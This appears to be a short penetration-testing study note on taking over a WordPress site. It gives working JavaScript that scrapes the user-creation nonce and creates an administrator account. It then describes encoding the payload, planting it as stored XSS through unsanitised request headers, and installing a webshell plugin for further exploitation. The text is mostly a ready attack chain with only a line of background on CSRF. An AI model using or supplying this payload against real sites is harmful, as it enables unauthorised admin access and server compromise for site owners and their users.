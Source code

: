 WordPress nonces protect the platform against various malicious attacks, particularly cross-site request forgery (CSRF). This cyber attack exploits WordPress security vulnerabilities to trick users into submitting unwanted requests, from changing users’ login details to deleting user accounts. In the following way we can get a Nonce for a dynamically created user.

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

And we can create the new user with

```js
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

We can then minify the attack with something like [JSCompress](https://jscompress.com/) and ==**encode it in UTF-16**== integer with [Cyberchef](https://gchq.github.io/CyberChef/) or charCodeAt JS function. At this point we only need to find a way to inject it in the Server in a persistent way (XSS Stored). This can be done if the PHP part of the server doesn't sanitize input in the User-Agent or other parameters of the request headers. Once we got the admin access we can craft or use a WebShell plugin to enumerate and exploit the system. We can use something like [Wordpress Shell Login](https://github.com/p0dalirius/Wordpress-webshell-plugin) and can be found on [github](https://github.com/p0dalirius/Wordpress-webshell-plugin).
